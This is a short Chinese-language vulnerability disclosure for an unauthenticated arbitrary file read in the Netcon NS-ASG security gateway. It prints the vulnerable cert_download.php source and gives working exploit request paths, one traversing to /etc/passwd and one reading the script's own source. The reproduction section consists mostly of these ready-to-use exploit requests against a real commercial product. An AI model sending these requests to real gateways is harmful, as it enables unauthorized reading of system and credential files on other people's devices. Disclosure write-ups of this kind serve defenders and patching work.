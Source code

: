 # 网康 NS-ASG安全网关 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> 网康 NS-ASG安全网关 

## FOFA

> [!NOTE]
>
> 网康 NS-ASG安全网关

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?> 
```

此文件没有对身份进行校验即可下载任意文件

```
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/qax-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](http://wikioss.peiqi.tech/vuln/qax-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)